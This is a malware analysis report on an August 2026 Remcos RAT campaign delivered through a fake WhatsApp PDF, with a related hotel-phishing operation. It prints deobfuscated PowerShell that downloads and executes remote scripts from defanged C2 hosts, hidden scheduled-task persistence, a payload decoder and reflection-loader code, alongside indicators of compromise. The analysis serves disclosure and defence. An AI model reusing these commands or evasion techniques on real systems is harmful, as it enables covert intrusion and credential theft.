### Summary

In August 2026 a campaign was identified delivering Remcos RAT 7.2.6 Pro through a five-stage chain, executed almost entirely in memory. The initial file has a WhatsApp image name and a double extension. The delivery vector and the target audience of this sample were not identified. Pivoting on the infrastructure revealed an earlier campaign, from July, directed at the hospitality sector.

This article documents the chain from the initial vector to the loading of the RAT, along with the observed indicators of compromise.


### Initial phishing

The initial vector is a file named:

```
WhatsApp Image-2026-08-01 at PM_8167677672.pdf.js
```

The construction of the name mimics the WhatsApp media export pattern, date, time and numeric identifier, and places the real extension (`.js`) after a fake extension (`.pdf`). **On Windows installations with the default setting of hiding extensions for known file types, the user sees only a file ending in `.pdf`**. A double-click hands execution over to the Windows Script Host.


### Stage 0 — JavaScript downloader

The JS file passes itself off as a Windows audit script, written in Portuguese, but contains obfuscated malicious code within it.


#### Obfuscation through Unicode insertion

The command to be executed is stored in a variable where each readable character is separated by a fixed block of Unicode characters from rare scripts: Runic, Khmer, Coptic, Lisu, Cherokee, using the emoji `🦃🦃` as a delimiter:

```javascript
var comando = 'p🦃🦃ⵀ᚛ᛅᚄⲊᛂᚗᛝꀂꀚᛠᛒᚃ ꀛꀬᚌᛙមⲏឈⲒꀰᚈꀪᚚꀉⲢᏤᚈរ🦃🦃ܔᘙ5ⓖ...
```

The result is unreadable to the naked eye and breaks any static signature looking for literal strings such as `powershell` or `Invoke-Expression`. A cleanup function defined in the script itself removes the Unicode noise at runtime, reconstructing the original command immediately before the call.

Isolating only the printable ASCII characters from the string, the command is revealed:

```powershell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -Command
"[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;
 $script=Invoke-WebRequest -Uri 'https://royal-caribbean[.]agency/forma.txt' -UseBasicParsing;
 $content=$script.Content;
 Invoke-Expression $content"
```

#### Fileless execution

The sequence is straightforward: it forces TLS 1.2, downloads `forma.txt`, stores the content in a variable and executes it via `Invoke-Expression`. The next stage payload goes from the network directly into memory, without passing through the file system.

In other words, controls based on file creation, disk scanning or executable reputation have nothing to act on at this point. Detection depends on command-line telemetry or on PowerShell script block logging.


### Stage 1 — PowerShell loader (`forma.txt`)

`forma.txt` is a PowerShell script, with comments and variables in PT-BR, executed entirely in memory. Its structure repeats in the following stages of the campaign, which suggests a common builder or deliberate code reuse by the operator.


#### Hiding the console window

The first action of the script is to hide its own window through direct calls to the Win32 API, imported via `Add-Type`:



The presence of `Adobe Reader Document PDF` in the conditional prevents the call to `ShowWindow` from reaching the host's own window, which, in a document delivery scenario, would make the Adobe window disappear from the victim's screen, possibly raising suspicion.

#### Termination of .NET LOLBins

Before executing the payload, the script terminates a fixed list of processes:

```
MSBuild, RegAsm, RegSvcs, InstallUtil, AddInProcess, AddInProcess32,
vbc, CasPol, aspnet_compiler, aspnet_regbrowsers, ilasm, cvtres
```


#### Binary encoding of the payload

The payload itself is encoded as a bit string, distributed across a PowerShell array and separated by the marker `@@@_@@@_@@@_@@@`:


```powershell
$DocumentacioMonetizada2026 = @(
    '0101101101000011011011010110010001101100...',
    '0110001101101000011000110010100000101001...',
    ...
)
```

The variable names — `$DocumentacioMonetizada2026`, `$MicrosoftSedment`, `$ControlePaiseFilhosDigitalizados` follow the same pattern, which appears in the JS file of the previous stage and in the subsequent stages.

The decoding function is written directly into the code:

```powershell
function Get-DecodedBinaryCommand {
    param ([string]$BinaryInput)
    $cleanedInput = $BinaryInput -replace '@@@_@@@_@@@_@@@', ''
    if (($cleanedInput.Length % 8) -ne 0 -or $cleanedInput -match '[^01]') {
         throw "Entrada binária inválida."
    }
    $byteCount = $cleanedInput.Length / 8
    $bytes = New-Object byte[] $byteCount
    for ($i = 0; $i -lt $byteCount; $i++) {
        $substring = $cleanedInput.Substring($i * 8, 8)
        $bytes[$i] = [Convert]::ToByte($substring, 2)
    }
    return [System.Text.Encoding]::UTF8.GetString($bytes)
}
```

It removes the marker, validates that the remaining string is a multiple of 8 and contains only `0` and `1`, converts each octet into a byte and decodes it as UTF-8. The result is executed via `[ScriptBlock]::Create().Invoke()`, keeping the payload in memory.

#### Actions of the decoded payload (forma.txt)

The decoded script executes the final sequence of the stage:



**The downloaded file is not a PDF.** The URL ends in `.pdf`, but the content is a ZIP file, saved locally as `arquivo.zip` and immediately extracted. The extension in the URL exists only so that the network traffic looks like a document download.

**The working directory is `C:\Users\Public`.** This folder is writable by any user account without privilege elevation.

After executing the `.bat`, the script waits two and a half minutes and then recursively deletes all the contents of `C:\Users\Public`. The interval is enough for Stage 2 to register its persistence before the on-disk artifacts are destroyed. When the cleanup occurs, the infection has already migrated to scheduled tasks and nothing further depends on the extracted files.

It is worth noting the side effect: `Remove-Item -Recurse -Force` over `C:\Users\Public` also destroys any legitimate files from other users or applications that reside there. The operator makes no distinction.

**The contents of the ZIP are two files:**

```
controle-de-pais.pdf (ZIP)
├── controle-de-pais.bat
└── controle-de-pais.ps1
```

The `.bat` is remarkably simple, only two lines, with no obfuscation:

```bat
@echo off
powershell.exe -NoProfile -ExecutionPolicy Bypass -File "C:\Users\Public\controle-de-pais.ps1"
```

Technically it is redundant, since Stage 1 could invoke PowerShell directly. Its existence may be related to the process chain, in that the resulting one becomes `powershell.exe → cmd.exe → powershell.exe` instead of `powershell.exe → powershell.exe`, breaking a parent-child pattern that EDR solutions frequently monitor.


### Stage 2: the modular downloader

The file `controle-de-pais.ps1`, invoked by the `.bat`, repeats the use of obfuscated code and the header structure of the previous stages: same window hiding function, same list of excluded hosts, same `Get-DecodedBinaryCommand` function with the marker `@@@_@@@_@@@_@@@`.

#### Obfuscated script inside controle-de-pais.ps1: downloading the components

The first action of the decoded payload is to download nine files from `royal-caribbean[.]agency/rem/`:



Each file is written to `C:\Users\Public` with `Invoke-WebRequest -OutFile`, using a forged browser User-Agent to blend the traffic in with legitimate requests. This is the only point in the chain where artifacts return to disk after the Stage 1 cleanup.

The destination path does not appear in clear text in the script:



The string `C:\Users\Public` is assembled at runtime through character substitution, rendering ineffective any signatures that look for the path.

#### Substitution cipher over the hexadecimal

The two files that contain executable code (`REM_runpe.txt` and `REM_msg.txt`) arrive in hexadecimal with three characters substituted:



The files end up not looking like conventional hexadecimal and do not match rules that detect hex-encoded binaries. The substitution is reversed in memory before the conversion to bytes.

#### Method names supplied by the server

The loader's execution line is:

```powershell
[Reflection.Assembly]::$nomeMetodoLoad($dllBytes)
    .$nomeMetodoTipo($parametroClasse)
    .$nomeMetodoExec($parametroMetodo)
    .$nomeInvoke($null, [object[]]@($paramFramework, $null, $mensagemBytes, $true))
```

All the method names are variables filled in by files downloaded from the server:

| File                | Encoding       | Content                                                         |
| ------------------- | -------------- | --------------------------------------------------------------- |
| `REM_load.txt`      | text           | name of the assembly loading method                             |
| `REM_type.txt`      | text           | name of the type resolution method                              |
| `REM_xx.txt`        | binary         | name of the target class inside NewPE2                          |
| `REM_method.txt`    | text           | name of the method lookup method                                |
| `REM_Execute.txt`   | binary         | name of the method to be invoked                                |
| `REM_invoke.txt`    | text           | name of the invocation method                                   |
| `REM_Framework.txt` | binary         | first argument of the execution (likely the target process path) |
| `REM_runpe.txt`     | obfuscated hex | NewPE2 bytes (injector)                                         |
| `REM_msg.txt`       | obfuscated hex | Remcos 7.2.6 Pro bytes                                          |

Based on the files downloaded from the server, it would be possible to translate the PowerShell command into the following:

```powershell
[Reflection.Assembly]::Load($dllBytes) .GetType("NewPE2.PE") .GetMethod("Execute") .Invoke($null, [object[]]@( "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\AddInProcess32.exe", $null, $mensagemBytes, $true ))
```

That is: it loads the NewPE2 assembly into memory, resolves the NewPE2.PE class, locates the Execute method, and invokes it with four arguments: the target process path, null, the Remcos bytes, and a boolean flag.

The effect is that the script contains no recognizable reflection string. There is no `Load`, `GetType` or `Invoke` anywhere in the code. Static analysis of the script in isolation does not reveal what it loads, which method it executes, nor which process hosts the injection.

#### Execution and fault tolerance


```powershell
for ($CDT = 1; $CDT -le 3; $CDT++) {
    ExecutarPayload | Out-Null
}
```

The payload is executed three times in sequence. The most likely purpose is injection fault tolerance: if the target process is not available on the first attempt, the following attempts may succeed.

#### Persistence via scheduled tasks

In parallel with the modular downloader, the script registers two scheduled tasks in clear text, without obfuscation. Both are identical in mechanics and point to different servers:



It is a failover configuration: if one server is blocked or goes offline, the other keeps the channel active. The reappearance of `royal-caribbean[.]agency` here ties the stages together: the same server that delivered `forma.txt` and the ZIP now comes back as the persistence destination.

The tasks are registered as:

```
OneDrive Reporting Task-S-1-5-21-2570289620-3791926121-1501765468-1001
```

The name mimics the pattern of legitimate OneDrive tasks, with a SID appended to look like a native system component.

**Action executed.** Each task triggers:

```powershell
powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -Command
"[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;
 IEX (Invoke-WebRequest -Uri 'https://<one of the two C2s>/nucleo.txt' -UseBasicParsing).Content"
```

The pattern is the same as Stage 0: it forces TLS 1.2, downloads the content and passes it straight to `Invoke-Expression`. The payload never touches the disk.

Each task triggers three hours after registration and repeats indefinitely every three hours. The registration parameters ensure execution on laptops, on machines that were powered off at the scheduled time, and with no visible window. The context is that of the interactive user, with no administrative privilege requirement.



Before registering, the script calls `Unregister-ScheduledTask` with `-ErrorAction SilentlyContinue` for each of the two tasks, allowing re-execution over an existing infection without generating duplicates.


#### What remains on the host at the end of Stage 2

When the Stage 1 cleanup (the binary from the `forma.txt` file) deletes `C:\Users\Public` one hundred and fifty seconds after the start, the `.bat` and `controle-de-pais.ps1` have already served their purpose. What remains on the machine are two entries in the Windows Task Scheduler with names that mimic OneDrive components, pointing to two external domains, ready to download and execute the next stage every three hours. No executable, no script on disk.


### Stage 3: injection and execution of Remcos

`nucleo.txt`, downloaded by the scheduled tasks every three hours, is the stage that actually loads Remcos into memory. Structurally it repeats the window hiding header and the binary decoder of the previous stages. The decoded payload is the same modular downloader from `controle-de-pais.ps1`, with the same list of nine components, the same reflection mechanism and the same injection target.

#### The injector: NewPE2

The file `REM_runpe.txt`, after the character substitution is reversed and it is converted to bytes, is `NewPE2.dll` (sha256: a550a06a66009040462411867fce966b24499290d08bac8b3596f715cd5c6596), a process hollowing loader written in .NET and publicly available. I will not go into detail about how it works, as it has already been widely covered.

The Remcos payload arrives encrypted. Decryption uses AES via `RijndaelManaged`, with the key derived by MD5 and the content transported in Base64. `REM_msg.txt` on disk is Base64 with character substitution, not a recognizable PE.

#### Process hollowing over AddInProcess32.exe

The reflection command assembled from the nine files resolves to:


```powershell
[Reflection.Assembly]::Load($dllBytes)
    .GetType("NewPE2.PE")
    .GetMethod("Execute")
    .Invoke($null, [object[]]@(
        "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\AddInProcess32.exe",
        $null,
        $mensagemBytes,
        $true
    ))
```

The target process is `AddInProcess32.exe`, a legitimate .NET Framework binary signed by Microsoft. The hollowing sequence follows the classic model: `CreateProcessA` creates the process in suspended mode, `NtUnmapViewOfSection` unmaps the original image, `VirtualAllocEx` allocates memory in the process space, `WriteProcessMemory` writes the Remcos bytes, `SetThreadContext` redirects the entry point and `ResumeThread` resumes execution with Remcos in place of the original binary.

The connection with Stage 1 is direct. The list of processes terminated at the start of the chain explicitly includes `AddInProcess` and `AddInProcess32`. Stage 1 eliminates existing instances. Stage 3 creates a new, controlled instance.

The result is an `AddInProcess32.exe` process running with Remcos in memory, with no RAT executable file on disk.

#### Remcos 7.2.6 Pro

The final payload is Remcos version 7.2.6 Pro, identified in clear text in the binary.


The extracted configuration points to a single C2:

```
minhadede[.]ddns[.]net:2403:1
```

The `:1` field at the end is the TLS flag. The channel is encrypted, and the binary carries support for TLS 1.3 (`TLS13-AES128-GCM-SHA256`), with a certificate generated on 2026-07-20 and validity configured until 2147. The certificate is embedded in the config and used in the encrypted channel with the server. The issuance date bounds the campaign creation window.


The C2 uses a subdomain of the No-IP service, free and disposable.

The config exposes the remaining relevant parameters:

```
Mutex:     Rmc-GFZ***
Process:   remcos.exe
Log:       logs.dat
Screenshots: Capturas de tela
Recordings:  MicRecords
License:   E1D25D0D496***
```

The folder name in Portuguese `Capturas de tela` are one more marker of a Lusophone operator, consistent with the Portuguese comments in the scripts of the previous stages and with the `minhadede` subdomain.

The binary also presents an ip-api.com API key:



Remcos queries this service to obtain geolocation data about the victim, probably for triage. The key is from the paid version of the service, which means it is tied to an account registered and funded by the operator.

#### Remcos capabilities in this build

Keylogger in two modes, online and offline, with clipboard capture and active window logging.



- Theft of credentials and cookies from Chrome, Edge, Brave, Yandex, Opera, Opera GX and Firefox.
- Screen capture. Audio recording via microphone. Webcam access.



- Remote shell via `cmd.exe`.
- Full file management, including upload, download, execution and deletion.
- Service and process management.
- Bidirectional port forwarding for using the victim machine as a pivot point.
- Watchdog that restarts the agent if the process is terminated.

Two evasion techniques deserve highlighting in this implementation:

The first is cookie theft via `werfault.exe`. Instead of extracting credentials directly, Remcos copies itself to a temporary directory under the name `werfault.exe`, a legitimate Windows Error Reporting binary, executes the copy as a child process, waits up to 60 seconds for completion and deletes the file. The child process operates under the name of a trusted binary, and the parent-child relationship visible to monitoring tools is `explorer.exe → werfault.exe`, not `AddInProcess32.exe → werfault.exe`.



The second is PEB masquerading. Before executing sensitive operations, Remcos modifies the Process Environment Block of its own process to replace the executable path and the command line with `C:\Windows\explorer.exe`. The modification occurs in two layers: `ProcessParameters.ImagePathName` and `ProcessParameters.CommandLine` in the PEB, and the `FullDllName` and `BaseDllName` entries in the loader's module list.



Any tool that reads the process name via `NtQueryInformationProcess` or via the loader list sees `explorer.exe`. After the operation, the PEB is restored to its original state.



The pointers to the native APIs used in this routine, such as `DAT_00479bb4`, are resolved at runtime by `FUN_00408254` via `GetProcAddress`, which keeps `RtlAcquirePebLock`, `LdrEnumerateLoadedModules` and the others out of the binary's import table.

The PEB Masquerading technique was documented by Elastic for earlier versions of Remcos and remains present in 7.2.6.

Remcos has already been exhaustively documented, so my goal in this article is not to extend the analysis of the final executable any further, but rather to focus on the campaign as a whole.

Nothing is extremely sophisticated. The injector is public, the RAT is bought ready-made, and the operator did not write any of the hard parts. What he did was stack cheap layers, each one covering a different blind spot: the user does not see the double extension, the antivirus does not see the command hidden among the Unicode characters, disk monitoring does not see what only exists in memory, and static analysis does not see a reflection call whose method names only arrive from the server.

One detail that stands out is `AddInProcess32.exe` being terminated in the first stage and used as a host in the last one. On top of that, everything is executed without administrative privilege.


### Pivoting to a related campaign: July 2026

Pivoting on the domain `royal-caribbean[.]agency` exposed an earlier operation, from 16 July, on the same infrastructure.

#### Delivery

An email posing as a travel agency. The text displays a Booking.com link, but the hyperlink points to a Wix redirector:


```
https://graciela313.wixsite[.]com/so/51PzhnDv5/c?w=tjo9p18uhsxEFAL6w-36WP4FsuSFe3MlkF6wUV-z6mo.eyJ1IjoiaHR0cHM6Ly9yb3lhbC1jYXJpYmJlYW4uYWdlbmN5L2NvbG9tYmlhIiwiciI6IjE5MmIxNjU2LTgyOTQtNDBjZi1hNTcwLTQ1ZWQxZDI5Y2JjZiIsIm0iOiJtYWlsIiwiYyI6IjliODk5Njc4LTI3ZGMtNDFhNC05NTQyLTUxZWQwNjE5OTE3ZCJ9
```

The `w` parameter carries Base64 that decodes to the real destination:


```json
{"u":"https://royal-caribbean[.]agency/colombia", ...}
```

wixsite.com carries established domain reputation and tends to pass through email filters that would block a direct link to a recently registered .agency. The final destination also stays outside the body of the message, which limits automated analysis based solely on the email content.

The `/colombia` path is worth noting. It indicates that the infrastructure is organized by geographic segment, which opens a pivoting angle: other country paths on the same server likely correspond to other regional campaigns.

#### Payload

A file delivered with a visible `.pdf` extension, actually a VBS. Same technique as the August campaign, different format.



#### Exposed telemetry

`royal-caribbean[.]agency/conta/` presents itself as a weather panel. The source code, with comments in Portuguese, reveals its real function. The script queries:

```
https://royal-caribbean[.]agency/conta/counter.php
```

The endpoint returns the accumulated access count, without authentication. It is the operator's own telemetry, exposed.





The number serves as a victim count. It counts accesses, but includes researchers, sandboxes and crawlers that have already passed through the page. Therefore, it is not possible to guarantee that the displayed number is exactly the number of infected machines.

#### Correlation

They share the delivery server, the double extension technique, Portuguese comments in the code, and many related files installed on the victim machine.

Taking into account that in the campaign with the WhatsApp initial payload the certificate of the Remcos executable is dated 20/07/2026, the VBS file campaign was launched first.

The Portuguese markers point to authorship, not to the target. The only sign of geographic segmentation in the infrastructure is the `/colombia` path, and it does not match the operator's language. I did not identify /brazil on the server.

# Intelligence analysis

#### Victimology

The July campaign was directed at the reservations mailbox (reservas@) of a Spanish hotel chain. The email, in Spanish, does not impersonate a brand nor create artificial urgency. The sender presents himself as a customer who cannot complete a reservation and asks for help, attaching the malicious link as supposed evidence of the problem.

The pretext is effective for the opposite reason to the usual one. A reservas@ address exists precisely to receive messages from strangers with reservation problems, and whoever operates that mailbox opens links from unknown people as part of their job.

This points to an extremely relevant piece of information: the operator is attacking not the end user, but rather employees of hospitality companies. Why?

#### Context: an established market

The hospitality sector has been the target of campaigns with a defined objective, documented for years.

Microsoft has been tracking since December 2024 a [campaign](https://www.microsoft.com/en-us/security/blog/2025/03/13/phishing-campaign-impersonates-booking-com-delivers-a-suite-of-credential-stealing-malware/) attributed to Storm-1865 that impersonates Booking.com and delivers multiple infostealer families via ClickFix, with an explicit focus on financial fraud. In November 2025, Sekoia [published the analysis](https://www.sekoia.com/blog/phishing-campaigns-i-paid-twice-targeting-booking-com-hotels-and-customers) of the "I Paid Twice" operation, active since at least April 2025 and still operational in October of that year, which compromises hotel administrators with PureRAT and uses real reservation data to defraud guests.

What these reports establish about the motivation is that the extranet account, the administrative panel that partner hotels use to manage reservations on the intermediation platforms, is not a means to another end, it is the merchandise.

